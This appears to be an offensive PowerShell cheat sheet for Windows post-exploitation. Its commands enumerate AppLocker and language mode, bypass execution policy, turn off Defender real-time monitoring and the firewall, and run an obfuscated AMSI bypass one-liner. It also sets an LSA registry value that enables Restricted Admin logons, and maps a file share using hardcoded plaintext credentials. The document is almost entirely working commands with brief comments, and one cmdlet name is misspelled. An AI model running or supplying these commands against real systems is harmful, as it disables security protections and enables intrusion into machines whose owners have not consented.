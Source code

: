 ```powershell
# Enumerate AppLocker policies 
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
# If we find that a file cannot be run from a location, maybe we can try to run it from another location.

# Quickly enumerate whether we are in Full Language Mode or Constrained Language Mode.
$ExecutionContext.SessionState.LanguageMode

# Check current execution policy. If the answer is
# - "Restricted": Ps scripts cannot run.
# - "RemoteSigned": Downloaded scripts will require the script to be signed by a trusted publisher.
Get-Execution-Policy

# Bypass execution policy
powershell -ep bypass

# Get the current Defender status.
Get-MpComputerStatus

# Deactivate antivirus from powershell session (if user has rights to do so)
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable firewall
netsh advfirewall set allprofiles state off

# Bypass AMSI
**S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )**

# Add a registry
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```


### Connect to a share

```powershell
# The command New-PSDrive connects a computer to or disconnects a computer from a shared resource or displays information about computer connections.
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem"

# Connect/ Disconnect a share with user and password
$username = 'plaintext'
$password = 'Password123'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred
```
